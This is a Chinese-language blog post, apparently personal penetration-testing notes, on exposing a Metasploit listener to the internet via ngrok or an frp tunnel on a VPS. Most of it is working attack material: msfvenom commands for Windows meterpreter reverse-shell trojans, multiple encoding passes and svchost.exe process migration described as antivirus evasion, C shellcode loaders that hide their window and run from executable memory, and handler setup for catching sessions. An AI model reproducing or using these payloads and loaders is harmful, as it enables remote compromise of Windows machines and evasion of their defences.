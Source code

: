 ```yaml
---

title: MSF映射到公网的常见方法
top: true
cover: true
toc: true
mathjax: true
date: 2020-10-18 21:32:59
password: xxoo
summary:
tags: MSF
categories: MSF
---
```


---

### 0x01、前言

在渗透测试的环节中，MSF可以说是老生常谈的必会工具之一，有的时候内网的MSF并不能满足我们的使用需求，此时我们需要借助一些方法来进行端口转发，这里简单的介绍下如何将内网中的MSF转发到公网。



### 0x02、常见的两种转发方式

#### 方法①：使用Ngrok内网映射

首先我们需要有一个Ngrok官网的账户，官网地址：https://ngrok.com/，注册好后，首先下载一个Ngrok软件，下载地址：https://ngrok.com/download   

下载完成后，将软件复制到kali，解压后执行下图中的命令（ngrok官网会分配你个key）

![ngrok](MSF映射到公网的常见方法/ngrok.png)

![ngrok-kali](MSF映射到公网的常见方法/ngrok-kali.png)

接下来就很简单了，如果想将本地的http服务转发到公网，那么可以执行下列命令，然后会将http服务转发到公网的ngrok域名上

```
./ngrok http 80
```

![ngrok1](MSF映射到公网的常见方法/ngrok1.png)

![http](MSF映射到公网的常见方法/http.png)



ok，试完了http，我们来将tcp转发

```
./ngrok tcp 8888
```

![tcp](MSF映射到公网的常见方法/tcp.png)



 接下来，我们使用msf生成一个木马测试下

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```

这里简单说下木马的参数：

- -p	 选择指定payload

- –e    选择制定编码器（不同编码器免杀效果也有不同，部分编码器应对火绒等杀软效果显著）

-  -i     编码次数

- -b     去处多余/坏字符，lhost是你申请的ngrok服务器地址 lport是自定义的远程端口

- -f 	 生成指定格式

- -a     选择架构平台，包括x86 | x64 | x86_64

- --platform          选择系统类型

  

当然也可以生成c的shellcode

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f c 
```

![shellcode](MSF映射到公网的常见方法/shellcode.png)



使用VC++6.0对下面的代码进行编译

```
#include <stdio.h>

#pragmacomment( linker, “/subsystem:”windows” /entry:”mainCRTStartup”")//运行时不显示窗口

unsignedchar buf[] =

“buf数组”;//将复制的数组粘贴到此处

main()

{
((void(*)(void))&buf)();

}
```



回归正题，使用msf监听模块监听

```
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 127.0.0.1

set lport 8888

exploit
```



meterpreter获取会话

![msf](MSF映射到公网的常见方法/msf.png)





方法②：使用frp+vps内网映射

首先需要去gihub下载frp :https://github.com/fatedier/frp/releases 这里我下载的linux 64的版本（因为服务器是linux），下载后分别放到本地kali和服务器上，解压后，然后分别去配置：



服务端配置frps.ini文件：

```
bind_addr = 0.0.0.0			 //填0.0.0.0即可意为本机ip
bind_port = 6531			//frp连接端口
dashboard_addr = 0.0.0.0     //填0.0.0.0即可意为本机ip
dashboard_port = 7500		//网页访问端口
dashboard_user = admin 		//用户名
dashboard_pwd = crlf 		//密码
token = crlf			   //frp连接口令
```

配置完成后，启动服务端

```
方法一：./frps - c frps.ini		//前台启动，可以看到详细的监听xinxi
方法二：nohup ./frps -c frps.ini > log.txt &		//后台启动
```

![frp](MSF映射到公网的常见方法/frp.png)

启动成功后可以通过网页端访问来查看

![http_s](MSF映射到公网的常见方法/http_s.png)





接下来配置客户端kali的frpc.ini

```
[common]
server_addr = 66.23.x.x      //vps的ip
server_port = 6531     		//连接frp的端口
token = crlf      			//连接frp口令
[msf]
type = tcp     			   //tcp协议
local_ip = 127.0.0.1       //填127.0.0.1即可
local_port = 6759         //转发到vps的点端口
remote_port = 6000        //访问端口
```



运行 ./frpc  -c frpc.ini

![frp_c](MSF映射到公网的常见方法/frp_c.png)

ok，接下来使用上面的msfvenom 生成测试木马

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 15 -f exe -o payload.exe
```



也可以使用shellcode

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform windows LHOST=远程服务端ip 
LPORT=远程服务端端口 -e x86/shikata_ga_nai -i 15 -b 'x00' PrependMigrate=true PrependMigrateProc=svchost.exe -f c > shellcode.c
```

- PrependMigrate=true、PrependMigrateProc=svchost.exe		使木马程序会迁移到svchost.exe进程

- 也可以使用windows/meterpreter/reverse_tcp_rc4这个payload，进行会话加密，增加免杀能力



使用vc++6.0创建32位的项目并编译

```
#include<stdio.h>
#include<windows.h>
#pragma comment(linker,"/subsystem:"windows" /entry:"mainCRTStartup"") //去除窗口
unsigned char shellcode[]=
"这里放生成的shellcode"
void main()
{
 LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
 memcpy(Memory, shellcode, sizeof(shellcode));
 ((void(*)())Memory)();
}
```



最后启动msf，等待上线

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 127.0.0.1  
set lport 6759     // 本机转发端口
```

![xx](MSF映射到公网的常见方法/xx.png)



### 0x03、结语：

写的很乱，用做笔记，希望能帮到有缘人吧，然后如有错误，欢迎斧正！

---

